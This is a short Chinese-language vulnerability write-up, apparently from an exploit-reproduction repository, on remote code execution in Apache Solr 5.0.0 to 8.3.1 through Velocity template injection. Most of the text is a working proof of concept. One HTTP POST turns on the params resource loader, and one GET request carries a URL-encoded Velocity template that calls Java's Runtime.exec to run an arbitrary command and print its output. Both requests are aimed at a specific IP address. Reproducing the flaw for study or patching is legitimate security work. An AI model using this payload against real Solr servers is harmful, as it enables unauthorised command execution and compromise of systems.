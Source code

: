 # Solr < 8.3.1 RCE

## 漏洞描述

5.0.0 到 8.3.1版本中，用户可以注入自定义模板，通过Velocity模板语言执行任意命令

## writeup

- 待执行命令 

```
pwd
```

- 创建core

```
docker exec solr bash bin/solr create_core -c demo
```

- POC

开启 params.resource.loader.enabled

```
POST /solr/demo/config HTTP/1.1
Host: 106.53.141.62:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

注入Velocity模板即可执行任意命令

```
GET /solr/demo/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27pwd%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: 106.53.141.62:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36


```

## 复现结果

开启 params.resource.loader.enabled

![](./1.png)

注入Velocity模板即可执行任意命令

![](./2.png)

